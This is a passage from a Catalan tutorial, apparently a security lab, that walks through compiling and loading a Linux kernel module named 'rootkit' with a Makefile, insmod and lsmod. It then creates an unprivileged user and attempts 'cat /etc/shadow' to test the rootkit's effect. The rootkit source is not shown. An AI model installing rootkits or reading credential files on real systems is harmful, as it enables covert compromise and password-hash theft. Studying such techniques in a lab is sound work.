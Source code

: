5. Preparem un Makefile per compilar el nostre mòdul del kernel:

    ```makefile
    obj-m += rootkit.o

    all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

    clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
    ```

6. Compilem el nostre mòdul del kernel:

    ```sh
    make
    ```

7. Instal·lem el nostre mòdul del kernel:

    ```sh
    insmod rootkit.ko
    ```

8. Comprovem que el nostre mòdul s'ha instal·lat correctament:

    ```sh
    lsmod | grep rootkit
    ```

9. Comprovem que el nostre rootkit funciona correctament:

    ```sh
    dmesg | tail
    ```

10. Crearem un usuari al sistema sense privilegis d'administrador:

    ```sh
    useradd test
    ```

11. Ens connectem al sistema amb aquest usuari:

    ```sh
    su - test
    ```

12. Observem els valors que identifiquen l'usuari actual:

    ```sh
    id
    ```

13. Intenteu revisar un fitxer que només pot ser llegit pel root (/etc/shadow):

    ```sh
    cat /etc/shadow
    ```
